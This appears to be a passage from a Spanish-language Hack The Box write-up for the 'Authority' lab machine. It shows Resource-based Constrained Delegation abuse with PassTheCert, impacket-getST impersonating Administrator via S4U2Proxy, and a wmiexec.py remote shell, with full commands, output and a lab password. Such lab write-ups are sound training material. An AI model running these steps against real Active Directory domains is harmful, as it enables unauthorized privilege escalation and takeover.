 El siguiente paso en la explotación de **`Resource-based Constrained Delegation (RBCD)`** consiste en configurar correctamente los permisos de delegación para que la máquina **`rbcd_gzzcoo$`** pueda actuar en nombre de los usuarios de la máquina **`AUTHORITY$`**.

Con este comando, hemos configurado **`rbcd_gzzcoo$`** para que pueda actuar en nombre de los usuarios en **`AUTHORITY$`** mediante el protocolo **`S4U2Proxy`**. Esto significa que ahora la máquina **`rbcd_gzzcoo$`** tiene permisos para suplantar identidades de los usuarios de **`AUTHORITY$`**, lo que nos proporciona un vector para escalar privilegios aún más.

Al permitir que **`rbcd_gzzcoo$`** actúe en nombre de **`AUTHORITY$`**, tenemos acceso a las credenciales y recursos protegidos por las políticas de delegación en la máquina **`AUTHORITY$`**. Esto abre la puerta a la obtención de privilegios elevados y al acceso a más recursos dentro del dominio.

```bash
❯ python3 /opt/PassTheCert/Python/passthecert.py -action write_rbcd -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222 -delegate-to 'AUTHORITY$' -delegate-from 'rbcd_gzzcoo$'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] rbcd_gzzcoo$ can now impersonate users on AUTHORITY$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     rbcd_gzzcoo$   (S-1-5-21-622327497-3269355298-2248959698-11604)
```

Después de configurar la delegación RBCD correctamente, utilizamos **`impacket-getST`** para obtener el **`Ticket Granting Ticket (TGT)`** del usuario **`Administrator`** y luego lo usamos para suplantarlo. Ejecutamos el siguiente comando para obtener el ticket y realizar la suplantación mediante **`S4U2Proxy`.**

Este proceso genera el ticket Kerberos necesario y lo guarda en el archivo **`Administrator@cifs_AUTHORITY.authority.htb@AUTHORITY.HTB.ccache`**. A continuación, usamos el ticket para ejecutar un comando **`wmiexec.py`** y obtener acceso remoto a la máquina **`AUTHORITY`.**

Esto nos otorga acceso con privilegios de **`htb\administrator`**. Al ejecutar **`whoami`**, verificamos que hemos conseguido los permisos de **`Administrator`**. También usamos el comando **`ipconfig`** para obtener detalles de la red, confirmando que la máquina `AUTHORITY` tiene la IP `10.10.11.222`.

Con esto, logramos una escalada de privilegios exitosa utilizando `RBCD` a través de `PassTheCert` y Kerberos.

<pre class="language-bash"><code class="lang-bash">❯ impacket-getS<a data-footnote-ref href="#user-content-fn-1">T</a> -spn 'cifs/AUTHORITY.authority.htb' -impersonate Administrator -dc-ip 10.10.11.222 'authority.htb'/'rbcd_gzzcoo$':'Gzzcoo123' 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_AUTHORITY.authority.htb@AUTHORITY.HTB.ccache

❯ KRB5CCNAME=Administrator@cifs_AUTHORITY.authority.htb@AUTHORITY.HTB.ccache wmiexec.py authority.htb/Administrator@AUTHORITY.authority.htb -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

